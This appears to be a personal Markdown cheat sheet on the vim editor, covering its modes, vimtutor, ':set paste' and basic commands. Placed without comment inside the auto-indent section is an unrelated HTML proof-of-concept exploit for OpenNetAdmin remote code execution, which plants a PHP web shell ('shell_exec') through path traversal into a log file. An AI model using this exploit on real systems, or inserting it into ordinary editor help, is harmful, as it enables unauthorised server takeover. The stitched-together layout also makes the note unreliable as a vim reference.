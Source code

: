 # ⚙️ vi vim

Tags: #⚙️ 
Related to: 
See also: 
Previous: [[ ]]

## Description

Vi IMproved, a programmer's text editor

## Usage Examples

|Mode|Description|
|:----|:----|
|Normal|In normal mode, all inputs are considered as editor commands. So there is no insertion of the entered characters into the editor buffer, as is the case with most other editors. After starting the editor, we are usually in the normal mode.|
|Insert|With a few exceptions, all entered characters are inserted into the buffer.|
|Visual|The visual mode is used to mark a contiguous part of the text, which will be visually highlighted. By positioning the cursor, we change the selected area. The highlighted area can then be edited in various ways, such as deleting, copying, or replacing it.|
|Command|It allows us to enter single-line commands at the bottom of the editor. This can be used for sorting, replacing text sections, or deleting them, for example.|
|Replace|In replace mode, the newly entered text will overwrite existing text characters unless there are no more old characters at the current cursor position. Then the newly entered text will be added.|

### Learn vim

	vimtutor

### Prevent vim auto-indenting

	vim index.hmtl

```
:set paste		// Prevents vim auto-indenting
				// Note: Pasting in insert mode automatically negates vim auto-indenting

:set nopaste	// Reverts to default
```

```
<!-- Proof of concept code for easy exploitation. Run this and then go to -->
<!-- http://URLHERE/ona/dcm.php?module=mandat0ry for your shell! -->

<center>
<head>
<title>0wned Your Network</title>
<script type="text/javascript">
function changeaction()
{
    document.sploit.action = document.getElementById("url").value;
    alert('Remember, your shell must be accessed via
'+document.getElementById("url").value+'?module=mandat0ry');
}
</script>
</head>
<font size="5">OpenNetAdmin RCE Exploit</font><br />
<font size="2"><i>Now with leet button sploiting action! (oooh,
ahhh!)</i></font><br /><br />
<form action="/" method="post" name="sploit" onsubmit="changeaction()" >
URL: <input id="url" value="http://127.0.0.1/ona/dcm.php" size="50" /><br />
PHP Code to Execute: <input type="text" size="50" name="options[desc]"
value="<?php echo shell_exec($_GET[1]) ?>"/> <br />
<input type="hidden" name="module" value="add_module" />
<input type="hidden" name="options[name]" value="mandat0ry" />
<input type="hidden" name="options[file]"
value="../../../../../../../../../../../var/log/ona.log" />
<input type="submit" value="Exploit!" />
</form>
<b><i>Special thanks to: offsec, twitches, funkenstein, zachzor,
av1dmage, drc, arsinh, and the coders for OpenNetAdmin!</i></b>
</center>
```

### Commands

|Command|Description|
|:----|:----|
|x|Cut character|
|dw|Cut word|
|dd|Cut full line|
|yw|Copy word|
|yy|Copy full line|
|p|Paste|
|:1|Go to line number 1.|
|:w|Write the file, save|
|:q|Quit|
|:q!|Quit without saving|
|:wq|Write and quit|

# References

<iframe width="560" height="315" src="https://www.youtube.com/embed/l8iXMgk2nnY" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>